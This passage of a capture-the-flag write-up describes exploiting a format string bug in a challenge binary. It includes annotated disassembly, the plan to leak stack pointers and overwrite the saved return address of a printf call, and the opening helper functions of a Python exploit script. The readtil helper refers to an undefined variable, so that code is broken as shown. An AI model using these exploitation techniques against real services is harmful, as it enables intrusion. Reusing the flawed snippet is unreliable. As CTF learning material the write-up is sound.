 Easy, right? Wrong. The remote binary returned the same string, `0ops{secret_md5}`. Obviously, I had to find another way to break this binary. 

The Nitty Gritty
----------------

I tried overwriting a GOT pointer with the format string vulnerability, but failed: the GOT section was marked read-only! I looked for other ways to gain control of execution or making the `memcmp` succeed, but could only come up with one thing: overwriting the saved return address of the second printf call.

```
11d9: lea    rsi,[rip+0x2b5]       ; 'secret_MD5' --> same remotely :?
11e0: mov    rdi,rax
11e3: call   b70 <memcmp@plt>
11e8: test   eax,eax
11ea: jne    11f8 <open@plt+0x668>
11ec: mov    eax,0x0
11f1: call   fb3 <open@plt+0x423>
11f6: jmp    122e <open@plt+0x69e>
11f8: lea    rax,[rbp-0x210]
11ff: mov    rdi,rax
1202: mov    eax,0x0
1207: call   a70 <printf@plt>      ; second printf call; overwrite saved ret addr using format string vuln
120c: lea    rdi,[rip+0x293]        # 14a6 <open@plt+0x916>
1213: call   a90 <puts@plt>
1218: lea    rdi,[rip+0x2b1]        # 14d0 <open@plt+0x940>
121f: call   a90 <puts@plt>
1224: mov    edi,0x1
1229: call   aa0 <exit@plt>
```

I found a nice, stable stack pointer that I could leak, calculated the offset to the location of the saved return address and plugged it in a poc script. Locally, it gave me the flag! I quickly tried it remotely, but it failed miserably. Turns out the layout of the stack was different; the leaked stack pointer was at a different location. Furthermore, the offset from other leaked stack addresses to the saved return address of the second printf was different. Back to the drawing board?

Some luck involved
------------------

I spent some time trying to locate other stack addresses that I could leak and gave me a nice, stable way to calculate the location of the saved return address. I had a way to leak the binary address, meaning I could calculate the exact return address. I then started brute-forcing stack pointers and using the second printf to dump the memory from the stack. Using this, I was looking for the correct return address. Because I was fed up with it and it was late, I had forgotten to remove a certain constant from the poc that I used locally. 

```python
from socket import *
import struct, telnetlib, re, sys

def readtil(delim):
    buf = b''
    while not e in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def q(x):
    return struct.pack('<Q', x)
```